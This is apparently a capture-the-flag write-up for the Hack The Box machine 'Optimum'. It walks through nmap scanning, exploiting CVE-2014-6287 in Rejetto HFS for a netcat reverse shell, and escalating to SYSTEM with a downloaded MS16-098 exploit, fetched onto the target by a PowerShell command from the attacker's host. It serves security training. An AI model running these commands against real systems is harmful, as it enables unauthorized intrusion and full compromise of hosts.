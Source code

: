 # Optimum Writeup w/o Metasploit

![](https://miro.medium.com/max/577/1*NKZJ6g5IrMlmin0odn-nQw.png)

## Reconnaissance <a id="8798"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA nmap/initial 10.10.10.8
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that only one port is open:

* **Port 80:** running HttpFileServer httpd 2.3.

![](https://miro.medium.com/max/875/1*k9L7TrK7W6-VnZMQawgfcA.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA nmap/full 10.10.10.8
```

We get back the following result. No other ports are open.

![](https://miro.medium.com/max/875/1*ga9SWu1zvxTkW9Vc4vO3Uw.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA nmap/udp 10.10.10.8
```

We get back the following result.

![](https://miro.medium.com/max/820/1*AtOzEE85ZI8b_DN1Sc77MA.png)

Our initial recon shows that our only point of entry is through exploiting the HTTP File Server.

## Enumeration <a id="f550"></a>

Browse to the HTTP File server.

![](https://miro.medium.com/max/715/1*aCNfEc0EKBA3n4lxbDv-9w.png)

It seems to be a server that allows you to remotely access your files over the network. There’s a login page that might be using default credentials. This could potentially allow us to gain an initial foothold. Let’s google the server name and version to learn more about it.

![](https://miro.medium.com/max/780/1*0RMMOpk5wDXeUUM4zknTZw.png)

The first two google entries are publicly disclosed exploits that would give us remote code execution on the box!

Click on the first entry and view the compile instructions.

![](https://miro.medium.com/max/1189/1*w4ypNwoGT8Wa9lNAjPYHUA.png)

To compile the exploit, we need to perform a few tasks:

1. Host a web server on our attack machine \(kali\) on port 80 in a directory that has the netcat executable file.
2. Start a netcat listener on the attack machine.
3. Download the exploit and change the _ip\_addr_ & _local\_port_ variables __in the script to match the ip address of the attack machine and the port that netcat is listening on.
4. Run the script using python as stated in the _Usage_ comment.

Before we do that, let’s try and understand what the script is doing.

![](https://miro.medium.com/max/804/1*CVvuM4vFmi6wv9MjzpuGSg.png)

Everything in yellow \(in double quotes\) is URL encoded. Let’s decode it using an [online encoder/decoder](https://meyerweb.com/eric/tools/dencoder/).

![](https://miro.medium.com/max/782/1*U36Uah44TmAUC7NwFajP0g.png)

Three functions are being called:

* **script\_create\(\):** creates a script \(_script.vbs_\) that when run downloads the nc.exe from our attack machine and saves it to the _C:\Users\Public\_ location on the target machine.
* **execute\_script\(\):** uses the _csscript.exe_ \(command-line version of the Windows Script Host that provides command-line options for setting script properties\) to run _script.vbs_.
* **nc\_run\(\):** runs the the netcat executable and sends a reverse shell back to our attack machine.

Now that we understand what the script is doing, what remains to be answered is why was remote code execution allowed. Further googling tells us the [reason](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server \(aks HFS or HttpFileServer\) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

This makes sense. In the exploit, every time a search is done to run arbitrary code, the _%00_ sequence is used.

## Gaining an Initial Foothold <a id="4a01"></a>

Now that we understand the exploit, let’s run it. In the instructions, the first step is to host a web server on our attack machine \(kali\) on port 80 in a directory that has the netcat executable file.

Locate the Windows netcat executable file in the kali vm.

![](https://miro.medium.com/max/467/1*Qtf_ISBvJObLkgELGf6mmQ.png)

Copy it to the location where the server will be run.

```text
cp nc.exe ~/Desktop/
```

Start the HTTP server.

```text
python -S SimpleHTTPServer
```

The second step is to start a netcat listener on the attack machine.

```text
nc -nlvp 5555
```

The third step is to download the exploit and change the _ip\_addr_ & _local\_port_ variables __in the script to match the ip address of the attack machine and the port that netcat is listening on.

![](https://miro.medium.com/max/875/1*REj-uG7hpQC1kwqs8X3LsQ.png)

![](https://miro.medium.com/max/573/1*P2tOnHK8w5U6R_WZdJoG-Q.png)

The fourth step is to run the exploit.

```text
python 39161.py 10.10.10.8 80
```

We get a non-privileged shell back!

![](https://miro.medium.com/max/569/1*cf31JomNi-3VN4L2ezT7tQ.png)

Grab the user flag.

![](https://miro.medium.com/max/521/1*PQ7nJqA9EYMd6flmEDtzzA.png)

We don’t have system privileges, so we’ll need to find a way to escalate privileges.

## Privilege Escalation <a id="4f80"></a>

We’ll use [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) to identify any missing patches on the Windows target machine that could potentially allow us to escalate privileges.

First, download the script.

```text
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

Next, install the dependencies specified in the readme document.

```text
pip install xlrd --upgrade
```

Update the database.

```text
./windows-exploit-suggester.py --update
```

This creates an excel spreadsheet form the Microsoft vulnerability database in the working directory.

The next step is to retrieve the system information from the target machine. This can be done using the “systeminfo” command.

![](https://miro.medium.com/max/919/1*-p8vBM7H9aIjum8m1YaOQQ.png)

Copy the output and save it in a text file “sysinfo.txt” in the Windows Exploit Suggester directory on the attack machine. Then run the following command on the attack machine.

```text
./windows-exploit-suggester.py --database 2019-10-05-mssb.xls --systeminfo sysinfo.txt
```

![](https://miro.medium.com/max/1158/1*FavOCVu4GBX53wndAx_BqQ.png)

The Windows OS seems to be vulnerable to many exploits! Let’s try MS16–098. In the [exploit database](https://www.exploit-db.com/exploits/41020), it gives you a link to a precompiled executable. Download the executable on the attack machine.

```text
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Now we need to transfer it to the target machine. Start up an HTTP server on attack machine in the same directory that the executable file is in.

```text
python -m SimpleHTTPServer 9005
```

In target machine download the file in a directory you have write access to.

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Run the exploit.

![](https://miro.medium.com/max/657/1*rJz8daK8zkXt4ttTTZOqAg.png)

We have system! Grab the root flag.

![](https://miro.medium.com/max/463/1*yvwdKYtBc1geIU5UwobxGA.png)

## Lesson Learned <a id="41f2"></a>

Always update and patch your software! To gain both an initial foothold and escalate privileges, we leveraged publicly disclosed vulnerabilities that have security updates and patches available.

